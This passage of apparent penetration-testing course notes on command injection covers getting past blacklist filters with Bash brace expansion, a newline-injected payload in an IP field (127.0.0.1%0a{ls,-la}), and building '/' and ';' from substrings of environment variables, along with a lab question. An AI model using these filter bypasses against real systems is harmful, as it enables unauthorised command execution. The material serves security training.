 There are many other methods we can utilize to bypass space filters, we can use the `Bash Brace Expansion`

```shell-session
ElFelixi0@htb[/htb]$ {ls,-la}

total 0
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 07:37 .
drwxr-xr-x 1 21y4d 21y4d   0 Jul 13 13:01 ..
```

_**Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**_

<figure><img src="../../../.gitbook/assets/image (1313).png" alt=""><figcaption><p>127.0.0.1%0a{ls,-la}</p></figcaption></figure>

## Bypass Blacklisted Characters

### Linux

`${IFS}` is a magical environment variable but there are not that for other interesting chars, let's get creative and use the variables we know to get our chars through the filters ->

```shell-session
ElFelixi0@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

So if we print our&#x20;

```shell-session
ElFelixi0@htb[/htb]$ echo ${PATH:0:1}

/
```

And we can't forget `$HOME` or `$PWD`

```shell-session
ElFelixi0@htb[/htb]$ echo ${LS_COLORS:10:1}

;
```
